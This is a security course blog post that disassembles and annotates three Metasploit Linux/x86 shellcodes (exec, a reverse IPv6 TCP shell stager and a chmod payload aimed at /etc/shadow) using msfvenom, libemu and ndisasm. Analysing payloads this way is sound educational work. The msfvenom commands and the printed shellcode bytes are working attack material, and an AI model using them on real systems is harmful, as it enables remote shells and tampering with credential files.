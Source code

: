 ```yaml
---
layout: post
title: DISSECTING_METASPLOIT_SHELLCODE – LINUX/X86
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 5
* Github: [Kartik Durg](https://github.com/kartikdurg)

___

In this post we will be dissecting and analyzing the metasploit shellcodes using Ndisasm and Libemu.

Libemu: [https://github.com/buffer/libemu](https://github.com/buffer/libemu)

Packages like dh-autoreconf and graphviz are also needed in order to install and use libemu.

Now, lets start dissecting and analyzing the below metasploit shellcodes:

### 1) LINUX/X86/EXEC

To make it easier sctest in libemu, allows us to create the visual representation of a shellcode.

```
Command-Line:
==> msfvenom -p linux/x86/exec -f raw | ./sctest -vvv -Ss 100000 -G exec.dot
==> dot exec.dot -T png > exec.png
```

![](/media/5-dissect-1.jpg)

![](/media/5-dissect-2.jpg)

![](/media/5-dissect-3.jpg)

#### Analysis using ndisasm:

```
Command-Line:
==> msfvenom -p linux/x86/exec CMD=/bin/date -f raw | ndisasm -u -
```

![](/media/5-dissect-4.jpg)

```
00000000 6A0B          push byte +0xb
00000002 58            pop eax                  ;EAX=0xb
00000003 99            cdq                      ;EDX=0x0
00000004 52            push edx                 ;Push EDX|Zero byte
00000005 66682D63      push word 0x632d         ;PUSH "-c"
00000009 89E7          mov edi,esp              ;Now EDI points to top of the stack
0000000B 682F736800    push dword 0x68732f      ;PUSH "hs/"
00000010 682F62696E    push dword 0x6e69622f    ;PUSH "nib/"
00000015 89E3          mov ebx,esp              ;EBX points to top of stack
00000017 52            push edx                 ;Push EDX|Zero byte
00000018 E80A000000    call dword 0x27          ;Address of "/bin/date"
0000001D 2F            das                      ;Bytes of our string
0000001E 62696E        bound ebp,[ecx+0x6e]     ;Bytes of our string
00000021 2F            das                      ;Bytes of our string
00000022 6461          fs popad                 ;Bytes of our string
00000024 7465          jz 0x8b                  ;Bytes of our string
00000026 005753        add [edi+0x53],dl        ;Push edi and ebx
00000029 89E1          mov ecx,esp              ;points to our "exec" command
0000002B CD80          int 0x80                 ;syscall
```

### 2) LINUX/X86/SHELL/REVERSE_IPV6_TCP

Libemu:

```
Command-Line:
==> msfvenom -p linux/x86/shell/reverse_ipv6_tcp -f raw | ./sctest -vvv -Ss 100000 -G reverse_ipv6_tcp.dot
==> dot reverse_ipv6_tcp.dot -T png > reverse_ipv6_tcp.png
```

![](/media/5-dissect-5.jpg)

#### Analysis using ndisasm:

```
Command-Line:
==> msfvenom -p linux/x86/shell/reverse_ipv6_tcp -f raw | ndisasm -u -
```

Analysis: [Shell_Reverse_TCP_IPV6 – Linux/x86](https://kartikdurg.github.io/2018/07/29/shell-reverse-tcp-ipv6-linux-x86.html)

```
00000000 31DB            xor ebx,ebx
00000002 53              push ebx
00000003 43              inc ebx
00000004 53              push ebx
00000005 6A0A            push byte +0xa
00000007 89E1            mov ecx,esp
00000009 6A66            push byte +0x66
0000000B 58              pop eax
0000000C CD80            int 0x80
0000000E 96              xchg eax,esi
0000000F 99              cdq
00000010 6800000000      push dword 0x0
00000015 680A00020F      push dword 0xf02000a
0000001A 6800005EFE      push dword 0xfe5e0000
0000001F 6800000000      push dword 0x0
00000024 68FE800000      push dword 0x80fe
00000029 52              push edx
0000002A 6668115C        push word 0x5c11
0000002E 66680A00        push word 0xa
00000032 89E1            mov ecx,esp
00000034 6A1C            push byte +0x1c
00000036 51              push ecx
00000037 56              push esi
00000038 89E1            mov ecx,esp
0000003A 43              inc ebx
0000003B 43              inc ebx
0000003C 6A66            push byte +0x66
0000003E 58              pop eax
0000003F CD80            int 0x80
00000041 89F3            mov ebx,esi
00000043 B60C            mov dh,0xc
00000045 B003            mov al,0x3
00000047 CD80            int 0x80
00000049 89DF            mov edi,ebx
0000004B FFE1            jmp ecx
```

### 3) LINUX/X86/CHMOD

Libemu:

```
Command-Line:
==> msfvenom -p linux/x86/chmod -f raw | ./sctest -vvv -Ss 100000 -G chmod.dot
==> dot chmod.dot -T png > chmod.png
```

![](/media/5-dissect-6.jpg)

Analysis using ndisasm:

```
00000000 99            cdq               ;Push EDX|Zero byte
00000001 6A0F          push byte +0xf    ;chmod()
00000003 58            pop eax           ;EAX=0xf
00000004 52            push edx          ;PUSH EDX=0x0
00000005 E80C000000    call dword 0x16   ;call the code
0000000A 2F            das               ;start of our string
0000000B 657463        gs jz 0x71
0000000E 2F            das
0000000F 7368          jnc 0x79
00000011 61            popad
00000012 646F          fs outsd
00000014 7700          ja 0x16           ;end of our string
00000016 5B            pop ebx           ;EBX=string
00000017 68B6010000    push dword 0x1b6  ;"0x1b6" in OCTAL=0666
0000001C 59            pop ecx           ;chmod()
0000001D CD80          int 0x80
0000001F 6A01          push byte +0x1
00000021 58            pop eax
00000022 CD80          int 0x80          ;execute chmod()
```

___

Thank you for reading 🙂

– Kartik Durg